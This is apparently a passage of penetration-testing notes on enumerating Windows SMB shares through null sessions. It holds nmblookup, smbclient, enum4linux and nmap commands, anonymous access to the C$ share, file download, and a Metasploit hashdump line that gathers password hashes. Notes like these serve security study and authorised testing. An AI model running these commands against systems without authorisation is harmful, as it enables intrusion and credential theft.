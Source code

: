 ```bash

use post/windows/gather/hashdump
```

### windows shares with null sessions

enumeration with kali/parrot tools:
```
nmblookup -A 10.16.64.223
smbclient -L //10.16.64.223 -N share
smbclient //10.16.64.223/share -N mount

enum4linux -a 10.10.10.13
```

enumeration with nmap:
```bash
ll /usr/share/nmap/scripts/ | grep smb-enum-
-rw-r--r-- 1 root root  4846 Jan  9  2019 smb-enum-domains.nse
-rw-r--r-- 1 root root  5931 Jan  9  2019 smb-enum-groups.nse
-rw-r--r-- 1 root root  8045 Jan  9  2019 smb-enum-processes.nse
-rw-r--r-- 1 root root 27262 Jan  9  2019 smb-enum-services.nse
-rw-r--r-- 1 root root 12057 Jan  9  2019 smb-enum-sessions.nse
-rw-r--r-- 1 root root  6923 Jan  9  2019 smb-enum-shares.nse
-rw-r--r-- 1 root root 12531 Jan  9  2019 smb-enum-users.nse

nmap --script=smb-enum-users 192.168.1.10
```

#### null sessions
1) Use "enum4linux -n" to make sure if "<20>" exists:
```bash
enum4linux -n 192.168.1.10
```

2) If "<20>" exists, it means Null Session could be exploited. Utilize the following command to get more details:
```bash
enum4linux 192.168.1.10
```

3) If confirmed that Null Session exists, you can remotely list all share of the target:
```bash
smbclient -L WORKGROUP -I 192.168.1.10 -N -U ""
```

4) You also can connect the remote server by applying the following command:
```bash
smbclient \\\\192.168.1.10\\c$ -N -U ""
```

5) Download those files stored on the share drive:
```bash
smb: \> get Congratulations.txt
```
